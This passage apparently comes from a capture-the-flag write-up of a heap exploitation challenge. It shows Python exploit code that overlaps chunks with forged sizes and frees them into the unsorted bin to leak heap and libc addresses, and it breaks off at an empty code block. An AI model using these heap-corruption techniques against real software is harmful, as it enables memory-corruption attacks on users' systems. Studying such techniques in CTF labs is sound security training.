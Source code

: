 ```
for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)

#unsorted bin
buy_house(4, 0x90, "\x44" * 0x90)
buy_house(5, 0x90, "\x55" * 0x90)
buy_house(6, 0x90, "\x66" * 0x90)
buy_house(7, 0x90, "\x77" * 0x90)


```
Than, I free the chunk(the size of which is overwrite with 0x8d1) at 0x15d0. So a big unsorted bin is list.
```
sell(1)
```
![](./index_files/bbf2e852-9fbf-47d9-bd8a-605a59e2ddb2.png)
Then, I calloc the chunk of (0x8d0 - 0x10) to get the chunk again. Which is the most import is that, we then free the chunk of **house 4** and **house 6** to make them into unsorted bins.
```
buy_house(1, 0x8c0, "\xbb" * 0xa0 +
          p64(0) + p64(0xa1) + "\xcc" * 0x90 +
          p64(0) + p64(0xa1) + "\xdd" * 0x90 +
          (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
          p64(0) + p64(0xa1) + "\x44" * 0x90 +
          p64(0) + p64(0xa1) + "\x55" * 0x90 +
          p64(0) + p64(0xa1) + "\x66" * 0x90 + 
          p64(0) + p64(0xa1) + "\x77" * 0x90 )
#pause()
sell(4)
sell(6)
```
![](./index_files/54b015be-9a32-4986-b080-8ff7b6ca1a6c.jpg)
And show **house 1** to get **heap address** and **libc address**.
```
```
